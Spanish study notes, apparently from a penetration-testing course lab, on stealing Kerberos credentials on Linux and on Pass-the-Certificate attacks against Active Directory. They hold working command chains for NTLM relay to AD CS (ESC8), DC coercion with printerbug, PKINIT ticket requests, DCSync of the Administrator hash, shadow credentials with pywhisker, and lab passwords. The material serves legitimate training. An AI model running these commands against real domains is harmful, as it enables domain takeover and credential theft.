[**Linikatz**](https://github.com/CiscoCXSecurity/linikatz) (de Cisco) es el "Mimikatz de Linux" para entornos **integrados con AD**: extrae **todas las credenciales** (tickets, keytabs, hashes), incluida la ccache de SSSD. **Necesita root.**

```bash
chmod +x linikatz.sh && ./linikatz.sh
```

---

#### Resumen rápido (cheatsheet)

| Fase                     | Comando                                                     |
| ------------------------ | ----------------------------------------------------------- |
| ¿Unida a AD?             | `realm list` · `ps -ef \| grep -i "winbind\|sssd"`          |
| Buscar keytabs           | `find / -name *keytab* -ls 2>/dev/null` · `crontab -l`      |
| Buscar ccache            | `env \| grep -i krb5` · `ls -la /tmp`                       |
| Ver keytab               | `klist -k -t <keytab>`                                      |
| Importar keytab          | `kinit <user>@<DOMINIO> -k -t <keytab>`                     |
| Usar ticket (SMB)        | `smbclient //dc01/<share> -k -c ls`                         |
| Extraer hash de keytab   | `python3 keytabextract.py <keytab>`                         |
| Usar ccache              | `export KRB5CCNAME=<ccache>` → `impacket-wmiexec <host> -k` |
| Convertir ccache↔kirbi   | `impacket-ticketConverter <ccache> <salida.kirbi>`          |
| Importar kirbi (Win)     | `Rubeus.exe ptt /ticket:<kirbi>`                            |
| Login SSH de dominio     | `ssh <user>@<dominio>@<IP> -p <puerto>`                     |
| Ticket de máquina (root) | `export KRB5CCNAME=/var/lib/sss/db/ccache_<DOMINIO>`        |
| Volcar todo (root)       | `linikatz`                                                  |

> [!NOTE]
> **Idea clave**
> En Linux hay **dos tesoros**: **ccache** (ticket vivo → `KRB5CCNAME` + `-k`) y **keytab** (llave reutilizable → `kinit`). Y con **ticketConverter** mueves tickets entre Linux y Windows.

---

Siguiente técnica (certificados) → **Pass-the-Certificate**

Relacionado: **Pass the Ticket (PtT) desde Windows** · **Pass the Hash (PtH)** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Pass the Certificate (PtC)

> [!IMPORTANT]
> **La idea en una frase**
> En **Pass the Certificate** abusamos de **AD CS** (Active Directory Certificate Services) para obtener un **certificado** de una cuenta y, con **PKINIT**, pedir su **TGT** (o sacar su **NT hash**) — **sin conocer la contraseña**. Es el tercer "pass the…" tras **PtH** y **PtT**.

**PKINIT** (*Public Key Cryptography for Initial Authentication*) es la extensión de Kerberos que permite usar **criptografía de clave pública** (un certificado) en la autenticación inicial. Es lo que convierte "tener un certificado" en "tener un TGT".

> [!WARNING]
> **Nota de nivel**
> Esto es **avanzado** y pisa el módulo de **AD / AD CS** (familia **ESC1-ESC8**, Certipy…). Aquí queda como referencia del flujo que aparece en Password Attacks; la teoría completa de AD CS va en su módulo.

#### Esquema del ataque

1. **Conseguir un certificado** de la víctima → por **relay NTLM a AD CS (ESC8)** o añadiendo una **shadow credential**.
2. Usar el certificado con **PKINIT** (`gettgtpkinit.py`) para pedir un **TGT** (`.ccache`).
3. Con el TGT: **DCSync** (sacar NT hashes) o **pasar el ticket** y autenticarte.

---

#### Vía A · Relay NTLM a AD CS (ESC8)

**ESC8** (del paper [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)) es un **NTLM relay** contra el **endpoint HTTP de inscripción** de AD CS: forzamos a una máquina (p. ej. el DC) a autenticarse contra nosotros y **reenviamos** esa autenticación a la CA para que nos emita un **certificado** a su nombre.

##### 1. Levantar el relay hacia AD CS

```bash
impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```
- `-t …/certsrv/certfnsh.asp` → endpoint de inscripción web · `--adcs` → modo AD CS (pide un **certificado**, no una sesión).
- `--template KerberosAuthentication` → plantilla que permite **PKINIT**.

> [!NOTE]
> **Hace falta un "disparador" (añadido)**
> El relay espera una autenticación entrante; hay que **forzar al DC** a conectarse a ti. En el lab se hace con **krbrelayx/printerbug** (MS-RPRN) o **PetitPotam**, p. ej.:
> ```bash
> python3 printerbug.py 'inlanefreight.local/<user>:<pass>'@10.129.234.109 <mi-IP>
> ```
> El relay captura esa auth del DC y te deja el **PFX de `DC01$`** (en los apuntes, `../krbrelayx/DC01$.pfx`).

##### 2. PKINIT: certificado → TGT

```bash
python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$' /tmp/dc.ccache
```
Guarda el TGT de la cuenta de máquina en `/tmp/dc.ccache`.

##### 3. DCSync con el TGT de la máquina

```bash
export KRB5CCNAME=/tmp/dc.ccache
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL
```
Funciona porque **`DC01$` tiene derechos de DCSync** (es la cuenta del propio DC). Sacas el **NT hash del Administrator** → y con él, evil-winrm (PtH):

```bash
evil-winrm -i 10.129.234.109 -u Administrator -H <NT-hash-del-Administrator>
```
*(paso final añadido para cerrar el flujo; el hash sale del secretsdump anterior).*

> [!NOTE]
> **Si falla por DNS**
> Añade el DC a `/etc/hosts` (`10.129.234.109  DC01.INLANEFREIGHT.LOCAL`) y reintenta el secretsdump.

---

#### Vía B · Shadow Credentials (msDS-KeyCredentialLink)

Si controlas una cuenta con **permiso de escritura** sobre la víctima (aquí `wwhite` sobre `jpinkman`), le añades una **shadow credential** (un certificado) en su atributo [`msDS-KeyCredentialLink`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) y pides su TGT — **sin tocar su contraseña**. ([Explicación SpecterOps](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)).

##### 1. Añadir la shadow credential (pywhisker)

```bash
pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add
```
Te devuelve un **PFX (PKCS12)** (`eFUVVTPf.pfx`) y su **contraseña** (`bmRH4LK7UwPrAOfvIx6W`) — apunta ambos.

##### 2. PKINIT con ese PFX → TGT de la víctima

```bash
python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache
```

##### 3. Pasar el ticket

```bash
export KRB5CCNAME=/tmp/jpinkman.ccache
klist
```
Con el TGT cargado ya actúas como `jpinkman`; p. ej. shell por WinRM con Kerberos:

```bash
evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
```
*(paso de autenticación añadido para cerrar el flujo).*

> [!NOTE]
> **Si da error de Kerberos**
> Ajusta `/etc/krb5.conf` con tu realm apuntando al DC (`default_realm`, `kdc`, `domain_realm`) y reintenta.

---

#### Resumen rápido (cheatsheet)

| Fase | Comando |
|------|---------|
| **Vía A — Relay (ESC8)** | `impacket-ntlmrelayx -t http://<CA>/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication` |
| Disparar auth del DC | `printerbug.py '<D>/<u>:<p>'@<DC> <mi-IP>` (o PetitPotam) |
| Cert → TGT (PKINIT) | `gettgtpkinit.py -cert-pfx <pfx> -dc-ip <DC> '<D>/dc01$' /tmp/dc.ccache` |
| DCSync con TGT | `export KRB5CCNAME=/tmp/dc.ccache` → `impacket-secretsdump -k -no-pass -just-dc-user Administrator '<D>/DC01$'@<DC.fqdn>` |
| **Vía B — Shadow cred** | `pywhisker --dc-ip <DC> -d <D> -u <u> -p '<p>' --target <víctima> --action add` |
| Cert → TGT (víctima) | `gettgtpkinit.py -cert-pfx <pfx> -pfx-pass '<pass>' -dc-ip <DC> <D>/<víctima> /tmp/v.ccache` |
| Pasar ticket | `export KRB5CCNAME=/tmp/v.ccache` → `klist` → `evil-winrm -i <dc.fqdn> -r <dominio>` |

> [!TIP]
> **Lo que hay que quedarse**
> **Certificado → PKINIT → TGT → (DCSync / login)**, todo **sin contraseña**. Dos formas de obtener el certificado: **relay NTLM a AD CS (ESC8)** o **shadow credentials** (pywhisker, si tienes escritura sobre la víctima). La teoría a fondo, en el módulo de **AD / AD CS**.

---

Relacionado: **Pass the Hash (PtH)** · **Pass the Ticket (PtT) desde Windows** · **Pass the Ticket (PtT) desde Linux** · **0 - Password Attacks (Índice y cheatsheet)**

---
